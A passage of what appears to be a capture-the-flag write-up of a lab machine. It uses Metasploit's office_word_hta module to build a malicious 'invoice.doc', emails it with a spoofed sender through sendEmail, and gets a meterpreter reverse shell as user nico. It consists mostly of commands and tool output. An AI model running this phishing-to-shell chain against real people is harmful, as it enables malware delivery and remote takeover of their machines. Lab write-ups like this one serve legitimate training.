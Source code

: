```
   0   Microsoft Office Word

msf5 exploit(windows/fileformat/office_word_hta) > run
[*] Exploit running as background job 3.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.3:443
[+] invoice.doc stored at /root/.msf4/local/invoice.doc
[*] Using URL: http://10.10.14.3:80/default.hta
[*] Server started.

```

At this point, metasploit has created the document for me, and started two listeners, one on 80 to server the HTA file, and one on 443 to get a callback from meterpreter. It’s my job to get the rtf document to the target.

I’ll send the email the same as in the manual way, but this time with the Metasploit-generated document:

```

root@kali# sendEmail -f 0xdf@megabank.com -t nico@megabank.com -u "Invoice Attached" -m "You are overdue payment" -a /root/.msf4/local/invoice.doc -s 10.10.10.77 -v
Nov 05 12:06:20 kali sendEmail[20127]: DEBUG => Connecting to 10.10.10.77:25
Nov 05 12:06:20 kali sendEmail[20127]: DEBUG => My IP address is: 10.10.14.3
Nov 05 12:06:20 kali sendEmail[20127]: SUCCESS => Received:     220 Mail Service ready
Nov 05 12:06:20 kali sendEmail[20127]: INFO => Sending:         EHLO kali
Nov 05 12:06:20 kali sendEmail[20127]: SUCCESS => Received:     250-REEL, 250-SIZE 20480000, 250-AUTH LOGIN PLAIN, 250 HELP
Nov 05 12:06:20 kali sendEmail[20127]: INFO => Sending:         MAIL FROM:<0xdf@megabank.com>
Nov 05 12:06:20 kali sendEmail[20127]: SUCCESS => Received:     250 OK
Nov 05 12:06:20 kali sendEmail[20127]: INFO => Sending:         RCPT TO:<nico@megabank.com>
Nov 05 12:06:20 kali sendEmail[20127]: SUCCESS => Received:     250 OK
Nov 05 12:06:20 kali sendEmail[20127]: INFO => Sending:         DATA
Nov 05 12:06:20 kali sendEmail[20127]: SUCCESS => Received:     354 OK, send.
Nov 05 12:06:20 kali sendEmail[20127]: INFO => Sending message body
Nov 05 12:06:20 kali sendEmail[20127]: Setting content-type: text/plain
Nov 05 12:06:20 kali sendEmail[20127]: DEBUG => Sending the attachment [/root/.msf4/local/invoice.doc]
Nov 05 12:06:27 kali sendEmail[20127]: SUCCESS => Received:     250 Queued (6.562 seconds)
Nov 05 12:06:27 kali sendEmail[20127]: Email was sent successfully!  From: <0xdf@megabank.com> To: <nico@megabank.com> Subject: [Invoice Attached] Attachment(s): [invoice.doc] Server: [10.10.10.77:25]

```

A minute later, in the metasploit window:

```

[*] Sending stage (179779 bytes) to 10.10.10.77
[*] Meterpreter session 1 opened (10.10.14.3:443 -> 10.10.10.77:53907) at 2018-11-05 12:06:40 -0500
msf5 exploit(windows/fileformat/office_word_hta) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: HTB\nico

```
